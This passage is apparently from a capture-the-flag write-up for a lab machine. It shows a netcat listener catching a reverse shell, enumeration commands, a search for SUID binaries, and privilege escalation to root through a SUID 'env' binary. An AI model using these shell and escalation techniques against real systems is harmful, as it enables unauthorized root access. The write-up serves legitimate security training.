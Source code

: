 
```
┌──(kali㉿kali)-[/tmp]
└─$ nc -lnvp 1337                    
listening on [any] 1337 ...
connect to [10.8.150.214] from (UNKNOWN) [10.10.14.90] 43642
sh: 0: can't access tty; job control turned off
$ whoami 
namelessone
$ id
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

NOICE. we are in!

## PrivEsc

okay. first things first. Let's get a better shell and see what sudo permissions we have. Just do `bash -i`. We get

```
namelessone@anonymous:~$ sudo -l
sudo -l
sudo: no tty present and no askpass program specified
```

Okay so time to find the setuid bit. Use `namelessone@anonymous:~$ find / -perm -u=s 2>/dev/null`

Looking at [gtfobins](https://gtfobins.github.io/) we find `env` as a possible solution. 

```
namelessone@anonymous:~$ /usr/bin/env /bin/bash -p
/usr/bin/env /bin/bash -p
whoami
root
cat /root/root.txt
{hmmmmmmmmmmmmmmmmm}
```

We are done!




